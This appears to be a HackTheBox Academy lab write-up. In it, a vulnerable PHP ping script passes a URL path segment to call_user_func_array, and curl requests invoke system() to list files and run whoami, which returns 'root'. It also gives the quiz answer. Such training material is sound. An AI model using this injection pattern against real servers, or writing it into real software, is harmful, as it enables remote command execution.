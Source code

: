 ### Questions

#### Question #03

**Question**

Exploit the command injection vulnerability of the target to execute an "id" command. Submit the privileges under which the server is running as your answer. Answer options (without quotation marks): "user", "www-data", "root".

```php
<?php
function ping($host_url_ip, $packets) {
        if (!in_array($packets, array(1, 2, 3, 4))) {
                die('Only 1-4 packets!');
        }
        $cmd = "ping -c" . $packets . " " . escapeshellarg($host_url_ip);
        $delimiter = "\n" . str_repeat('-', 50) . "\n";
        echo $delimiter . implode($delimiter, array("Command:", $cmd, "Returned:", shell_exec($cmd)));
}

if ($_SERVER['REQUEST_METHOD'] === 'GET') {
        $prt = explode('/', $_SERVER['PATH_INFO']);
        call_user_func_array($prt[1], array_slice($prt, 2));
}
?>
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-wenhtohcao]─[~]
└──╼ [★]$ sudo tcpdump -i tun0 icmp

listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
05:13:28.657096 IP htb-wenhtohcao > 10.10.14.1: ICMP echo request, id 23057, seq 1, length 64
05:13:28.666474 IP 10.10.14.1 > htb-wenhtohcao: ICMP echo reply, id 23057, seq 1, length 64
05:13:29.653274 IP htb-wenhtohcao > 10.10.14.1: ICMP echo request, id 23083, seq 1, length 64
05:13:29.660183 IP 10.10.14.1 > htb-wenhtohcao: ICMP echo reply, id 23083, seq 1, length 64
05:13:30.652346 IP htb-wenhtohcao > 10.10.14.1: ICMP echo request, id 23111, seq 1, length 64
05:13:30.659231 IP 10.10.14.1 > htb-wenhtohcao: ICMP echo reply, id 23111, seq 1, length 64

[SNIP]
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-wenhtohcao]─[~]
└──╼ [★]$ curl http://10.129.181.45:3003/ping-server.php/system/ls

index.php
ping-server.php

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-wenhtohcao]─[~]
└──╼ [★]$ curl http://10.129.181.45:3003/ping-server.php/system/whoami

root
```
